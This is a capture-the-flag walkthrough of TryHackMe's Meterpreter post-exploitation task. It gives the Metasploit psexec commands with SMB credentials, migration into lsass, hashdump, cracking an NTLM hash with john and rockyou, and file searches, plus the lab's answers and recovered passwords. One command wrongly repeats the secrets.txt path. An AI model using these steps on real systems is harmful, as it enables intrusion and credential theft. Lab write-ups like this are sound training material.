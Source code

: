 # Metasploit: Meterpreter

{% embed url="https://tryhackme.com/room/meterpreter" %}
https://tryhackme.com/room/meterpreter
{% endembed %}

## Task 5 Post-Exploitation Challenge

```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.57.161
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-38-40.png>)

#### What is the computer name?

```bash
sysinfo
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-47-12.png>)

{% hint style="success" %}
`ACME-TEST`
{% endhint %}

#### What is the target domain?

{% hint style="success" %}
FLASH
{% endhint %}

#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-51-06.png>)

{% hint style="success" %}
`speedster`
{% endhint %}

#### What is the NTLM hash of the jchambers user?

* <mark style="color:red;">Works on AttackBox</mark>

```bash
ps lsass.exe
migrate 756
hashdump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-12-32.png>)

{% hint style="success" %}
`69596c7aa1e8daee17f8e78870e25a5c`
{% endhint %}

#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-15-36.png>)

{% hint style="success" %}
`Trustno1`
{% endhint %}

#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-42-53.png>)

{% hint style="success" %}
`C:\Program Files (x86)\Windows Multimedia Platform\`
{% endhint %}

#### What is the Twitter password revealed in the "secrets.txt" file?

{% hint style="success" %}
`KDSvbsw3849!`
{% endhint %}

#### Where is the "realsecret.txt" file located?

```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-45-40.png>)

{% hint style="success" %}
`C:\inetpub\wwwroot\`
{% endhint %}

#### What is the real secret?

{% hint style="success" %}
`The Flash is the fastest man alive`
{% endhint %}
